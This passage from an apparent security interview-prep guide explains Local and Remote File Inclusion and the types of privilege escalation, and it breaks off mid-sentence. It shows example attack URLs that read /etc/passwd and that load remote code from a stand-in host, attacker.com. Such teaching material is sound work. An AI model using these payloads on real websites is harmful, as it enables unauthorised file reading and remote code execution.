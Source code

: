 **Example** : Consider a website that includes files based on a "page" parameter in the URL, like so: 
```
http://example.com/index.php?page=about.php
```

If the website doesn't properly validate or sanitize user input, an attacker could manipulate the "page" parameter to include arbitrary files from the server's file system. For instance, they could change the URL to:
```
http://example.com/index.php?page=/etc/passwd
```

## **Remote File Inclusion (RFI)**

Remote File Inclusion (RFI) is a vulnerability present in web applications that allows attackers to include external files on a server. Unlike Local File Inclusion (LFI), where the attacker includes files already present on the server, RFI involves including files from remote locations, typically controlled by the attacker.

In RFI attacks, web applications dynamically include files using user-supplied input, such as URLs. If the application fails to properly validate and sanitize this input, an attacker can manipulate it to include malicious files hosted on external servers. These files can contain arbitrary code, enabling the attacker to execute commands or perform actions on the server.

**Example** :  Consider a website that includes external files based on a "page" parameter in the URL, like so: 

```
http://example.com/index.php?page=about.php
```
If the website doesn't properly validate or sanitize user input, an attacker could manipulate the "page" parameter to include a malicious file hosted on their own server, such as:

```
http://example.com/index.php?page=http://attacker.com/malicious.php
```

### 90. What Is the Difference Between LFI and RFI?

LFI involves including files already present on the target server, while RFI involves including files from remote servers controlled by the attacker. Both vulnerabilities can have severe security implications if not properly mitigated.

## 91. What is Privilege? Type of Escalation.

Privilege escalation typically involves gaining higher-level permissions within a system or application.

### There are several types of privilege escalation:

1. **Horizontal Privilege Escalation:** Involves gaining access to another user's account or privileges at the same level, typically within a multi-user environment.

2. **Vertical Privilege Escalation:** Involves gaining higher levels of access or permissions, such as escalating from a regular user to an administrator
